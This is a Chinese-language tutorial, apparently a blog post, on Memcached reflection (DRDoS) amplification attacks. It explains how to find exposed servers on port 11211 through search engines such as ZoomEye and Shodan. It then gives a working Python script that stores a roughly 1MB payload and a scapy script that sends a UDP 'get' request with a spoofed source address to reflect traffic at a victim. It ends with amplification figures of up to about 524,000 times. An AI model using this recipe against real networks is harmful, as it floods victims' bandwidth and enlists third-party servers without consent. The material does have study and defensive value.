





# Memcached ddos原理
因互联网上已经有较多完备总结，故在基础上整理完善贴出。
基础概念
--

关于Memcached系统
--
 Memcached是一个自由开源的，高性能，分布式内存对象缓存系统。Memcached是以LiveJournal旗下Danga Interactive公司的Brad Fitzpatric为首开发的一款软件。现在已成为mixi、hatena、Facebook、Vox、LiveJournal等众多服务中提高Web应用扩展性的重要因素。Memcached是一种基于内存的key-value存储，用来存储小块的任意数据（字符串、对象）。这些数据可以是数据库调用、API调用或者是页面渲染的结果。Memcached简洁而强大。它的简洁设计便于快速开发，减轻开发难度，解决了大数据量缓存的很多问题。它的API兼容大部分流行的开发语言。本质上，它是一个简洁的key-value存储系统。一般的使用目的是，通过缓存数据库查询结果，减少数据库访问次数，以提高动态Web应用的速度、提高可扩展性。
关于分布式DDoS原理
--
分布式拒绝服务(DDoS:Distributed Denial of Service)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS攻击，从而成倍地提高拒绝服务攻击的威力。通常，攻击者使用一个偷窃帐号将DDoS主控程序安装在一个计算机上，在一个设定的时间主控程序将与大量代理程序通讯，代理程序已经被安装在网络上的许多计算机上。代理程序收到指令时就发动攻击。利用客户/服务器技术，主控程序能在几秒钟内激活成百上千次代理程序的运行。
关于反射式DRDoS原理
--
DRDoS是英文“Distributed Reflection Denial of Service ”的缩写，中文意思是“分布式反射拒绝服务”。与DoS、DDoS不同，该方式靠的是发送大量带有被害者IP地址的数据包给攻击主机，然后攻击主机对IP地址源做出大量回应，形成拒绝服务攻击。
攻击流程
==
DDoS攻击流程
--

要完成这个攻击流程，得至少需要三个步骤。

1. 攻击者手里必须控制大量肉鸡机器，并且分布式在互联互通分布在互联上。

2. 攻击者随时可以通过代理或者控制程序同时向所有肉鸡发送大量攻击指令。

3. 所有肉鸡在接受指令后，同时大量并发，同时向受害者网络或者主机发起攻击行为。  

DRDoS攻击流程
--
DRDoS要完成一次反射放大攻击：


1. 攻击者，必须提前需要把攻击数据存放在所有的在线肉鸡或者反射服务器之上。

2. 攻击者，必须伪造IP源头。发送海量伪造IP来源的请求。当然这里的IP就是受害者的IP地址。

3. 反射服务器，必须可以反射数据，运行良好稳定。最好是请求数据少，返回数据成万倍增加。

如此不断循环，就可以大规模攻击其带宽网络，增加占用率和耗损目标机的硬件资源。

利用Memcached实现的DRDos攻击反射流程
--


  **存活机器**

首先我们要找到大量反射服务器，利用搜索引擎去发掘全球可利用在线服务器。这里我暂时用zoomeye进行搜集，你也可以用别的搜索引擎，比如shodan等。默认开启端口号是11211，利用知道创宇得钟馗之眼空间引擎搜索到全球538317台机器开启11211端口，运行着Memcached缓存服务系统。但是利用条件还有一个，就是我们还得进一步筛选确认是否开启默认可以登录的机器，这样就可以被我们所利用了。有些已经设置了安全认证，那么就无法使用了。

**通信协议**

从协议看，memcached同时监听tcp和udp。也就是说它本身支持两种协议同时可以发起交互和通信。这个就很关键了。大家可以看看tcp和udp协议区别。由于TCP是字节流，没有包的边界，无所谓大小，一次发送接受的数据取决于实现以及你的发送接收缓存大小。

TCP没有限定，TCP包头中就没有“包长度”字段，而完全依靠IP层去处理分帧。  
但是UDP协议就不一样了，他不基于连接，直接发送数据报到目标机器。  

注意这个Length字段，只占有两个字节。所以说UDP协议发送数据就有了限制，单次最大发送2^16=65535=64KB。  
如果想要发送更大数据包，那么只能使用TCP协议或者UDP多次发送来实现。

小结：
--
1. TCP面向连接（如打电话要先拨号建立连接）；UDP是无连接的，即发送数据之前不需要建立连接。
2. TCP提供可靠的服务。也就是说，通过TCP连接传送的数据，无差错，不丢失，不重复，且按序到达；  
UDP尽最大努力交付，即不保证可靠交付。
3. TCP面向字节流，实际上是TCP把数据看成一连串无结构的字节流；  
UDP是面向报文的。UDP没有拥塞控制，因此网络出现拥塞不会使源主机的发送速率降低。  
4. 每一条TCP连接只能是点到点的；  
UDP支持一对一，一对多，多对一和多对多的交互通信。
5. TCP首部开销20字节；  
UDP的首部开销小，只有8个字节。
6. TCP的逻辑通信信道是全双工的可靠信道，UDP则是不可靠信道。

好了，明白了这个，我们就看看怎么利用基于TCP和UDP协议通信的Memcached缓存系统。由于Memcached系统支持最大键值单数据对1M存储。所以我们最大只能存储1M，当然你可以作多个字段，这样也会放大。那首先按照流程图我们向远程服务器提前存储有效载荷，这里就是数据了。利用TCP协议可以一次性发1M，但是我们要是利用UDP就得循环发送多次才能完成1M数据传输。由于UDP具有不稳定性，数据包不保证可靠交付。这里我建议使用TCP进行发送。
数据格式
--
Memcached简洁而强大。它的简洁设计便于快速开发，减轻开发难度，解决了大数据量缓存的很多问题。它的API兼容大部分流行的开发语言。本质上，它是一个简洁的key-value存储系统。
一般的使用目的是，通过缓存数据库查询结果，减少数据库访问次数，以提高动态Web应用的速度、提高可扩展性。


**支持有如下所有命令和操作:**

     Memcached 存储命令
         Memcached set 命令
         Memcached add 命令
         Memcached replace 命令
         Memcached append 命令
         Memcached prepend 命令
         Memcached CAS 命令
     Memcached 查找命令
         Memcached get 命令
         Memcached gets 命令
         Memcached delete 命令
         Memcached incr/decr 命令
     Memcached 统计命令
         Memcached stats 命令
         Memcached stats items 命令
         Memcached stats slabs 命令
         Memcached stats sizes 命令
         Memcached flush_all 命令

这里我们重点介绍两种命令，因为我们的攻击流程中将会涉及了这两种方式。

第一个是上传有效载荷 **Memcached set** 命令

Memcached set 命令用于将 value(数据值) 存储在指定的 key(键) 中。

如果set的key已经存在，该命令可以更新该key所对应的原来的数据，也就是实现更新的作用。

set 命令的基本语法格式如下：

set key flags exptime bytes [noreply]
value

参数说明如下：

    key：键值 key-value 结构中的 key，用于查找缓存值。
    flags：可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息。
    exptime：在缓存中保存键值对的时间长度（以秒为单位，0 表示永远）
    bytes：在缓存中存储的字节数
    noreply（可选）： 该参数告知服务器不需要返回数据
    value：存储的值（始终位于第二行）（可直接理解为key-value结构中的value）


第二个反射有效载荷 **Memcached get** 命令

Memcached get 命令获取存储在 key(键) 中的 value(数据值) ，如果 key 不存在，则返回空。

get 命令的基本语法格式如下：

get key

多个 key 使用空格隔开，如下:

get key1 key2 key3

参数说明如下：

    key：键值 key-value 结构中的 key，用于查找缓存值。


攻击步骤
--

到了这里，我们接下来就是如何利用这个过程实现DRDoS反射拒绝服务攻击。  
实验环境：    

    客户端：
            win10 Thinkpad X220T 笔记本一台
            192.168.1.109
            python3.6、wireshark、gitbash
    服务端：
            Centos T_cloud  腾讯云服务器一台
            123.207.162.113
            memcached-1.2.2、libevent-1.3、tcpdump-4.1

**上传有效载荷**

思路是这样的：我们先上传指定数据到远程开放服务器Memcached上面，然后我们再去Memcached服务器请求查询数据上一步存储的数据，（这一步很关键，我们只能利用UDP协议进行反射，后面说明一下为什么。）这样就可以将数据通过Memcached服务器反射到目标受害机器上了。这里我们可以自己手动编写程序实现上传有效载荷到远程服务器，等待上传完了我们就可以进行UDP反射攻击了。  

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-

from socket import *

HOST ='127.0.0.1'
PORT = 11211
BUFFSIZE=2048
ADDR = (HOST,PORT)
memcachedClient = socket(AF_INET,SOCK_STREAM)

memcachedClient.connect(ADDR)
data = "set a 0 0 1048501" + "\r\n" + 'a' * 1048501 + "\r\n"
#经查阅资料，加手动测试，初步认为size最大值为 1048501
memcachedClient.sendall(data.encode())
print(memcachedClient.recv(BUFFSIZE).decode())
memcachedClient.close()  
```


上传成功后，我们来看一看设置的是否是预期的值。  



**反射有效载荷**

这里得注意一下，上面的上传我使用了TCP协议发送数据包，反射我必须使用UDP协议。因为只有UDP协议是基于无连接的，这样我们直接发送数据到目标服务器，不需要进行三次握手。同时服务器接收方也无法验证客户源IP，因此这个过程我们才可以利用UDP伪造源地址，实现反射DRDoS攻击过程。

 （特别注意UDP协议使用的时候，每个操作命令必须都要添加数据包结构要加头部8字节标志位，  
 "\x00\x00\x00\x00\x00\x01\x00\x00"）

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-

from scapy.all import *

get="\x00\x00\x00\x00\x00\x01\x00\x00get a\r\n"

pkt = IP(src="127.0.0.1",dst="127.0.0.1") / UDP(sport=12312,dport=11211) / Raw(load=get)
print('ready send...')
send(pkt, inter=1, count=1)   #发包间隔1，发包数量1
print('send seccuss...')
```

测试抓包:  
服务端：  
我们在服务端抓包查看服务端接受请求后，是否做出回应。
  
可见服务端是可以收到，并且回复了值。但是发送的包**27-30**四个字节的源ip地址被更改。  
查资料发现有的网络环境里面会被一些路由器纠正源地址，使得反射攻击失败。究其原因是因为其增加的uRPF机制，（Unicast Reverse Path Forwarding是一种单播反向路由查找技术，用于防止基于源地址欺骗的网络攻击行为。）重新修复了UDP源地址伪造。  

主要参考：
 https://blog.csdn.net/bjtbjt/article/details/79262549
 http://blog.nsfocus.net/memcached-drdos-analysis/


计算不同攻击方式的最大放大倍数  
==
**此图为360 Netlab构建的蜜罐收集的数据：**  

  

## 不上传载荷，直接stats：
根据memcached的版本不同，返回数据的多少有区别。
以version 1.2.2 为例，  
  
**放大约34倍，放大倍数与版本有关，但是是同一数量级。**


## 获取稳定单键：  
**\x00\x00\x00\x00\x00\x01\x00\x00get a\r\n**  
触发Memcached反射攻击的请求报文最小为15字节，包含为8字节（RFC规定字段）+3字节 (get)+1（空格）+最小为1字节（键的名称 ）+2字节 (\r\n)，而返回的请求数据达到105万(1048501)字节。  
**理论上可放大到接近7万倍。（1048501/15=6.99W）**

## 获取多键：  
因为带宽、网络环境和硬件限制，在增加稳定单键的获取数量时，会发生严重的丢包，但是因为是不稳定因素，不易定量分析。故假设在最理想的条件下获取多键，即带宽充足，硬件性能未达到极限，不丢包。
请求报文每增加两个字节（一个最小一字节键名，一个空格），返回报文增加1048501字节, 随着键的数量增加，倍数也会一直增加。  
举例：**\x00\x00\x00\x00\x00\x01\x00\x00get a a a a\r\n** 这样的增加。

        1048501(x+1)
    ————————————————————   极限为524250.5 约 52.4W倍
          15 + 2x

**以上即为文档全部内容**
